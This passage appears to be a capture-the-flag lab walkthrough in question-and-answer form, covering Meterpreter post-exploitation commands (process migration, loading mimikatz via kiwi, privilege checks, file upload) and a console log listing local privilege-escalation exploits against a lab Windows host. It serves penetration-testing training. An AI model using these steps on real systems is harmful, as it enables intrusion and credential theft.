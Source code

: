 A: spoolsv.exe

Q: Let's go ahead and move into the spool process or at least attempt to! What command do we use to transfer ourselves into the process? This won't work at the current time as we don't have sufficient privileges but we can still try!

A: migrate

Q: Well that migration didn't work, let's find out some more information about the system so we can try to elevate. What command can we run to find out more information regarding the current user running the process we are in?

A: getuid

Q: How about finding more information out about the system itself?

A: sysinfo

Q: This might take a little bit of googling, what do we run to load mimikatz (more specifically the new version of mimikatz) so we can use it?

A: load kiwi

Q: Let's go ahead and figure out the privileges of our current user, what command do we run?

A: getprivs

Q: What command do we run to transfer files to our victim computer?

A: upload

Q: How about if we want to run a Metasploit module?

A: run

Q: A simple question but still quite necessary, what command do we run to figure out the networking information and interfaces on our victim?

A: ipconfig

Q: Let's go ahead and run a few post modules from Metasploit. First, let's run the command `run post/windows/gather/checkvm`. This will determine if we're in a VM, a very useful piece of knowledge for further pivoting.

A: No answer needed

Q: Next, let's try: `run post/multi/recon/local_exploit_suggester`. This will check for various exploits which we can run within our session to elevate our privileges. Feel free to experiment using these suggestions, however, we'll be going through this in greater detail in the room `Ice`.

```sh
meterpreter > run post/windows/gather/checkvm

[*] Checking if DARK-PC is a Virtual Machine ...
[+] This is a Xen Virtual Machine
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.166.52 - Collecting local exploits for x86/windows...
[*] 10.10.166.52 - 36 exploit checks are being tried...
[+] 10.10.166.52 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.166.52 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 10.10.166.52 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.166.52 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.166.52 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.166.52 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.166.52 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.166.52 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.166.52 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
meterpreter > 
```